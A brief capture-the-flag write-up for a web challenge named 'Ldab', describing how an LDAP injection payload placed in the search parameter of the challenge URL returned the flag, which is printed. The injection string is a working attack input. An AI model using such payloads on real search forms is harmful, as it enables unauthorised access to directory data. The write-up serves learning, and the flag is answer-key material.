 #Ldab - Web

On this website, we can search for users and groups and because of the hint in challenge title, we first try LDAP Injection. After checking OWASP page, we first try this injection

> http://web.chal.csaw.io:8080/index.php?search=*)(uid=*))(|(uid=*

This one worked and gave us the flag: flag{ld4p_inj3ction_i5_a_th1ng}